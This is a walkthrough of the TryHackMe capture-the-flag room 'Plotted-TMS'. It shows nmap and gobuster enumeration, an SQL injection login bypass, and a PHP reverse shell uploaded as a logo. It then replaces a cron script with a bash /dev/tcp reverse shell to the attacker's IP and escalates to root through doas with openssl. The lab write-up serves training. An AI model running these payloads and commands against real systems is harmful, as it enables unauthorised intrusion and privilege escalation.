



# Plotted-TMS

A beginner-friendly CTF hosted on Tryhackme.com Created by "sa.infinity8888". Gole of this machine is boot to root, get user flag and root flag. and this room contains Enumeration, SQLI, and Privilege escalation

Let us boot up the machine as well as let's get the party started

start with Nmap scan

```
nmap -Pn -A -vvv -sV -sC -oN normal 10.10.255.29
```

which gives us open ports

```
PORT    STATE SERVICE REASON  VERSION
22/tcp  open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; pro
tocol 2.0)
80/tcp  open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
445/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

let us start with a directory scan with go buster

```
gobuster -u http://10.10.255.29/ -w ~/Tools/SecLists/Discovery/Web-Content/common.txt
```

Which gives us

```
=====================================================
2022/02/20 09:33:06 Starting gobuster
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/index.html (Status: 200)
/passwd (Status: 200)                                                                                                                                 /server-status (Status: 403)
/shadow (Status: 200)
=====================================================                                                                                                 2022/02/20 09:35:05 Finished
=====================================================
```

/admin directory contains id_rsa. Which contains base64 value
decode of it is

`Trust me it is not this easy..now get back to enumeration :D`

/passwd and /shadow also contains the same base64 and result is

`not this easy :D`

so not much found in PORT 80 so let us enumerate 445 with Go-Buster

```
gobuster -u http://10.10.255.29:445/ -w ~/Tools/SecLists/Discovery/Web-Content/common.txt
```

Which gives us

```
=====================================================
2022/02/20 09:50:36 Starting gobuster
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/management (Status: 301)
/server-status (Status: 403)
=====================================================
2022/02/20 09:55:18 Finished
=====================================================
```

/management contains login button which redirect to http://10.10.255.29:445/management/admin/login.php

Let us pass username as admin and password as admin in response we got an Incorrect username or password.
so in the user name field, pass username as admin 'or 1=1-- -'
and any random password in the password field and sign in. we got into the portal



forthwith we will be using PHP reverse shell.
from https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
on this file we will change IP to our IP and 
and start nc listner
`nc -nlvp`

On the admin, portal visit the setting tab and replace a logo with our PHP reverse shell and update file. with that, we will get a reverse shell on our system

```
nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.255.29 41970
Linux plotted 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 04:48:07 up 56 min,  0 users,  load average: 1.43, 1.24, 1.26
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

now then we will Stabilise the shell

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@plotted:/$ ^Z
[1]+  Stopped                 nc -nlvp 1234
splitunknown@SplitUnknown:~/Desktop/Plotted-TMS$ stty raw -echo;fg
splitunknown@SplitUnknown:~/Desktop/Plotted-TMS$ nc -nlvp 1234
www-data@plotted:/$
```

we don't have much access as www-data on the system let's enumerate to get pwned plot_admin for user flag

`cat /etc/crontab`

`* * * * * plot_admin /var/www/scripts/backup.sh`

contains backup script which execute every one minutes.and we have write access to that folder. remove the backup.sh
create backup.sh on our system which contains

```
#!/bin/bash
/bin/sh -i >& /dev/tcp/10.8.244.200/8888 0>&1
```

and start python webserver

`python3 -m http.server`

then wget backup.sh in /var/www/scripts location

`wget http://10.8.244.200:8000/backup.sh`
give execute permission to backup.sh
`chmod +x backup.sh`
start listener on our system
`nc -nlvp 8888`

after 1 minute you should get the shell





stabilise the shellstabilise the shell

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
plot_admin@plotted:~$ ^Z
[1]+  Stopped                 nc -nlvp 8888
splitunknown@SplitUnknown:~/Desktop/Plotted-TMS$ stty raw -echo;fg
nc -nlvp 8888
```

greb user flag
`cat ~/user.txt`

let us move on to privilege escalation run this
`find / -type f -perm /4000 -ls 2>/dev/null`
to get suid binarys.
and we found /usr/bin/doas unusual suid.

```
plot_admin@plotted:~$ cat /etc/doas.conf
permit nopass plot_admin as root cmd openssl
```

we can run openssl without password with root access on doas

```
plot_admin@plotted:~$ file=/root/root.txt
plot_admin@plotted:~$ doas openssl enc -in "$file"
Congratulations on completing this room!
<ROOT_FLAG>
Hope you enjoyed the journey!
Do let me know if you have any ideas/suggestions for future rooms.
-sa.infinity8888
plot_admin@plotted:~$
```

I hope this walk-through was helpful. Thank you so much for reading it
Happy Hacking ❤
